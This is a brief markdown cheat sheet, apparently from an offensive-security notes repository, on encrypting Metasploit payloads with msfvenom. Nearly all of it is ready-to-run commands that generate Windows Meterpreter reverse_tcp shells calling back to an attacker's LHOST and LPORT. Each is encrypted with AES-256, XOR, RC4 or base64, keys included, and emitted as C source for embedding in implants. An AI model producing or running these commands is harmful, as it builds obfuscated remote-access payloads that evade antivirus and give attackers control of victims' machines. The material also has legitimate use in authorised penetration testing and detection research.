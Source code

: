 # Encryption

- List of encryption methods

```
$ msfvenom -l encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

- Generating and encrypting payloads using the --encrypt flags

**Note:** For AES256 encryption that the key (using flag `--encrypt-key`) must be exactly 32 bytes of length and the IV (using flag `--encrypt-iv`) must be 16 bytes of length

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt aes256 --encrypt-key 0123456789abcdefghijklmnopqrstuv --encrypt-iv 1234567890abcdef -f c -o payload_aes.c`

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt xor --encrypt-key x0rk3y -f c -o payload_xor.c`

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt rc4 --encrypt-key rc4passw0rd! -f c -o payload_rc4.c`

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt base64 -f c -o payload_base64.c`

---
## References

- [How to XOR with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-XOR-with-Metasploit-Framework-Compiler)

- [How to RC4 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decrypt-RC4-with-Metasploit-Framework-Compiler)

- [How to decode Base64 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decode-Base64-with-Metasploit-Framework-Compiler)